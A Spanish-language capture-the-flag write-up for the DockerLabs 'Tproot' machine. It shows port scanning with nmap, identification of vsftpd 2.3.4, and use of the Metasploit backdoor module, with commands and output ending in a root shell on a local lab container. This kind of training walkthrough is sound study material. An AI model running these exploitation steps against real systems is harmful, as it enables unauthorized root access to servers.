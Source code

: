 # 🖥️ Writeup - Tproot 

**Plataforma:** Dockerlabs  
**Sistema Operativo:** Linux  

# INSTALACIÓN

Descargamos el `.zip` de la máquina desde DockerLabs a nuestro entorno y seguimos los siguientes pasos.

```bash 
unzip tproot.zip
```
La máquina ya está descomprimida y solo falta montarla.

```bash
sudo bash auto_deploy.sh tproot.tar
``` 
Info:

```

                            ##        .         
                      ## ## ##       ==         
                   ## ## ## ##      ===         
               /""""""""""""""""\___/ ===       
          ~~~ {~~ ~~~~ ~~~ ~~~~ ~~ ~ /  ===- ~~~
               \______ o          __/           
                 \    \        __/            
                  \____\______/               
                                          
  ___  ____ ____ _  _ ____ ____ _    ____ ___  ____ 
  |  \ |  | |    |_/  |___ |__/ |    |__| |__] [__  
  |__/ |__| |___ | \_ |___ |  \ |___ |  | |__] ___] 
                                         
                                     

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
``` 

Una vez desplegada, cuando terminemos de hackearla, con un `Ctrl + C` se eliminará automáticamente para que no queden archivos residuales.

# ESCANEO DE PUERTOS

A continuación, realizamos un escaneo general para comprobar qué puertos están abiertos y luego uno más exhaustivo para obtener información relevante sobre los servicios.

```bash
nmap -n -Pn -sS -sV -p- --open --min-rate 5000 172.17.0.2
``` 

```bash
nmap -n -Pn -sCV -p21,80 --min-rate 5000 172.17.0.2
```

Info:
```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-09-11 21:10 CEST
Nmap scan report for 172.17.0.2
Host is up (0.0000060s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 2.3.4
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.30 seconds.
```

Tenemos abiertos los puertos `21` y `80`.

Vemos que solo el puerto `21` (`FTP`) está abierto y que la versión de `vsftpd` que corre es la `2.3.4`.

Esta versión de `vsftpd` en concreto (`2.3.4`) es vulnerable a `Backdoor Command Execution`, como podemos comprobar tras utilizar `searchsploit`.

```
------------------------------------------------------------ ---------------------------------
 Exploit Title                                              |  Path
------------------------------------------------------------ ---------------------------------
vsftpd 2.3.4 - Backdoor Command Execution                   | unix/remote/49757.py
vsftpd 2.3.4 - Backdoor Command Execution (Metasploit)      | unix/remote/17491.rb
------------------------------------------------------------ ---------------------------------
```

Abrimos `Metasploit` y empleamos el módulo de explotación para `vsftpd 2.3.4`.

```js
search vsftpd 2.3.4
use exploit/unix/ftp/vsftpd_234_backdoor
show options
set RHOSTS 172.17.0.2
run
```

Info:
```
[*] 172.17.0.2:21 - Banner: 220 (vsFTPd 2.3.4)
[*] 172.17.0.2:21 - USER: 331 Please specify the password.
[+] 172.17.0.2:21 - Backdoor service has been spawned, handling...
[+] 172.17.0.2:21 - UID: uid=0(root) gid=0(root) groups=0(root)
[*] Found shell.
[*] Command shell session 1 opened (172.17.0.1:46523 -> 172.17.0.2:6200) at 2025-09-11 18:10:10 +0200
```

Obtenemos una `command shell` y verificamos qué privilegios tenemos.

```bash
/bin/bash -i
whoami
```

Info:
```
root@0cc78b8316b6:~/vsftpd-2.3.4# whoami
root
root@0cc78b8316b6:~/vsftpd-2.3.4#
```

Ya estamos como usuario root!